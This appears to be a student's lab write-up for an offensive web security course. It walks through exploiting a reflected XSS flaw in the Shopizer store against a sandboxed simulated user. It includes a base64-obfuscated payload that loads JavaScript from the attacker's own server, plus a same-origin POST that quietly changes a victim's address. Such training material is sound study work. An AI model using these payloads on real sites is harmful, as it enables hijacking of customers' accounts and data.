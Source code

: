 ```js
  body: 'customerId=&billingAddress=false&firstName=hax&lastName=hax&company=&address=hax&city=hax&country=AL&stateProvince=z&postalCode=z&phone=z&submitAddress=Change address'
});
```

We'll start the options object by setting the `method` to "POST" (line 2). Since our payload will effectively be hosted on the same domain as the application, we'll set the `mode` and `credentials` values to "same-origin" on lines 3 and 4. This should allow the browser to send the JSESSIONID cookie since the request will not be cross-origin. We'll include a `Content-Type` header with the value of "application/x-www-form-urlencoded" (lines 5-7). Finally, we'll include the POST body contents with some proof of concept values.

Now that we have our payload, we'll save it to the xss.js file we created earlier and start the HTTP server.

```bash
┌──(root💀gobots)-[23Dec2024 22:43:29]-[/home/kali/SUT/OSWA/xss]
└─# vim xsscinco2.js

kali@kali:~$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Let's test this payload out on our own account. Let's first browse to `http://shopizer:8080/shop/customer/dashboard.html` to make sure our session is still valid. If it's not, we'll need to log in again.

Next, let's visit the "Handbags" section and load our exploit URL, which will load the malicious JavaScript file from our Kali machine. The payload again will be `'+btoa(eval(atob('alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDUuMjMzL3hzc2NpbmNvMi5qcycpCg==')))+'`

![[Pasted image 20241223174619.png]]

![[Pasted image 20241223174632.png]]

The web page does not include any indication of whether our payload worked. If we check the HTTP history tab in Burp Suite, we should find that our POST request was sent.

We can verify the changes were saved by returning to the "My Account" page and clicking `Billing & shipping information`.

![[Pasted image 20241223174900.png]]
new payload workedExcellent! We were able to modify our user's shipping address with the reflected XSS vulnerability.

Next, let's target a `simulated user` using the XSS sandbox to mimic a real-world attack. We'll start by visiting the Shopizer page on the XSS sandbox at `http://xss-sandbox/challenge/shopizer`.

Once this page is loaded, we'll navigate to the "Handbags" page and add our payload.

NOTE: The XSS sandbox automatically adds the `/shop/` prefix when visiting the Shopizer app. If we create the payload by visiting the page, we don't need to worry about this. However, if we are pasting the URL, we need to ensure we remove the **/shop/** portion of it.

takes some time to bootup `http://192.168.210.101/challenge/shopizer`
![[Pasted image 20241223175352.png]]
use the same payload as before 
```js
'+btoa(eval(atob('alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDUuMjMzL3hzc2NpbmNvMi5qcycpCg==')))+'
```
at the `handbags` ref
![[Pasted image 20241223175529.png]]
got a hit on my python server
![[Pasted image 20241223175554.png]]
